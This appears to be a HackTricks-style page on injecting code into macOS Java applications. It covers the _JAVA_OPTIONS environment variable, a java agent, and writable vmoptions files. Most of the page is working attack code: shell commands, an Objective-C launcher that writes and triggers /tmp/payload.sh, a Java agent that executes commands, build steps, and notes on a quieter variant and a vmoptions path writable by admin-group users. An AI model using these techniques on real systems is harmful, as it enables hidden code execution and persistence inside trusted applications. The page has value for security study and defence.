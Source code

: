 # macOS Java Applications Injection
{{#include /banners/hacktricks-training.md}}


{{#include ../../../banners/hacktricks-training.md}}

## Enumeration

Find Java applications installed in your system. It was noticed that Java apps in the **Info.plist** will contain some java parameters which contain the string **`java.`**, so you can search for that:

```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```

## \_JAVA_OPTIONS

The env variable **`_JAVA_OPTIONS`** can be used to inject arbitrary java parameters in the execution of a java compiled app:

```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```

To execute it as a new process and not as a child of the current terminal you can use:

```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        // Specify the file path and content
        NSString *filePath = @"/tmp/payload.sh";
        NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

        NSError *error = nil;

        // Write content to the file
        BOOL success = [content writeToFile:filePath
                                 atomically:YES
                                   encoding:NSUTF8StringEncoding
                                      error:&error];

        if (!success) {
            NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
            return 1;
        }

        NSLog(@"File written successfully to %@", filePath);

        // Create a new task
        NSTask *task = [[NSTask alloc] init];

        /// Set the task's launch path to use the 'open' command
        [task setLaunchPath:@"/usr/bin/open"];

        // Arguments for the 'open' command, specifying the path to Android Studio
        [task setArguments:@[@"/Applications/Android Studio.app"]];

        // Define custom environment variables
        NSDictionary *customEnvironment = @{
            @"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
        };

        // Get the current environment and merge it with custom variables
        NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
        [environment addEntriesFromDictionary:customEnvironment];

        // Set the task's environment
        [task setEnvironment:environment];

        // Launch the task
        [task launch];
    }
    return 0;
}
```

However, that will trigger an error on the executed app, another more stealth way is to create a java agent and use:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

> [!CAUTION]
> Creating the agent with a **different Java version** from the application can crash the execution of both the agent and the application

Where the agent can be:

```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
  public static void premain(String args, Instrumentation inst) {
    try {
      String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
      Runtime.getRuntime().exec(commands);
    }
    catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```

To compile the agent run:

```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```

With `manifest.txt`:

```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```

And then export the env variable and run the java application like:

```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```

## vmoptions file

This file support the specification of **Java params** when Java is executed. You could use some of the previous tricks to change the java params and **make the process execute arbitrary commands**.\
Moreover, this file can also **include others** with the `include` directory, so you could also change an included file.

Even more, some Java apps will **load more than one `vmoptions`** file.

Some applications like Android Studio indicates in their **output where are they looking** for these files, like:

```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```

If they don't you can easily check for it with:

```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```

Note how interesting is that Android Studio in this example is trying to load the file **`/Applications/Android Studio.app.vmoptions`**, a place where any user from the **`admin` group has write access.**

{{#include ../../../banners/hacktricks-training.md}}
